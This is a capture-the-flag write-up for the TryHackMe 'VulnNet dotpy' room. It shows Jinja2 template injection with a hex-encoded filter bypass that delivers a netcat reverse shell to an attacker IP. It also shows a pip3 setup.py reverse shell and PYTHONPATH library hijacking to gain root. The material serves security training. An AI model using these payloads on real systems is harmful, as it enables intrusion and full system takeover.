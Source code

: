 # 70 - VulnNet dotpy (SSTI / SSTI Bypass)

Room Link --> [https://tryhackme.com/room/vulnnetdotpy](https://tryhackme.com/room/vulnnetdotpy)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
gobuster dir -u http://10.10.82.145:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403

/login
/register
/logout
```
{% endcode %}

We registered a new user and login.

I noticed whenever i enter a non existent page it gets injected into the page.

### SSTI exploitation

[http://10.10.82.145:8080/robots](http://10.10.82.145:8080/robots.txt)

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And some characters are blackliisted.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can start testing for SSTI (Server Side Template Injection) by going to [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#templates-injections) since we know the backend is using Python the guess here will be the Template in use here is Jinja2

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This worked:

```bash
{{7*'7'}} would result in 7777777

# go to:
http://10.10.82.145:8080/{{7*'7'}}
```

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

SSTI Resource --> [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

But there are some blacklisted characters we need to find them. We can just cause the program to error out.

Since this is executing python code i just added "print" in the payload.

`http://10.10.82.145:8080/{{print(7*'7')}}`

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We confirmed the Template Language `jinja2.exceptions.UndefinedError` .

Then i clicked the 1st error:

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see the blacklisted characters.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# blacklisted characters.
. _ [ ]
```

### Bypassing Filters

We use this resource that uses [Python Literal Hex Encoding](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) for bypassing those filters.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### payload used

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we enter our hex encoded payload in the 'PAYLOAD' field.
</strong><strong>/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('PAYLOAD')|attr('read')()}}
</strong></code></pre>

We use cyberchef to hex encode our payload:

{% code overflow="wrap" %}
```bash
# payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9002 >/tmp/f

# hex encoded.
\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66
```
{% endcode %}

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Final Payload

{% code overflow="wrap" %}
```bash
/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```
{% endcode %}

Setup NC listener, then we copy this payload and use Bursuite repeater to send this request.

<figure><img src=".gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And i got shell on NC listener:

<figure><img src=".gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to system-adm user

`sudo -l` and we can execute `/usr/bin/pip3 install *` as system-adm

So we check gtfobin for exploitation:

{% code overflow="wrap" lineNumbers="true" %}
```bash
# make a dir/
mkdir dking && cd dking

# create a .py file that executes a rev shell.
echo 'import os,pty,socket;s=socket.socket();s.connect(("10.18.88.214",7777));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' >  setup.py

# setup nc listener
nc -nvlp 7777

# execute it.
sudo -u system-adm /usr/bin/pip3 install .
```
{% endcode %}

We got shell.

<figure><img src=".gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

`sudo -l` and we can execute `/usr/bin/python3 /opt/backup.py` as root.

```bash
User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

```bash
# content of the file.
system-adm@vulnnet-dotpy:/opt$ cat backup.py 
from datetime import datetime
from pathlib import Path
import zipfile
```

We can see the file is calling the `zipfile` library and since we have `SETENV` priv we can set a fake PATHONPATH env variable with a malicious .py file.

```bash
# the malicious library.
echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py

# executing it.
sudo -u root PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

And we got root.

<figure><img src=".gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Done!


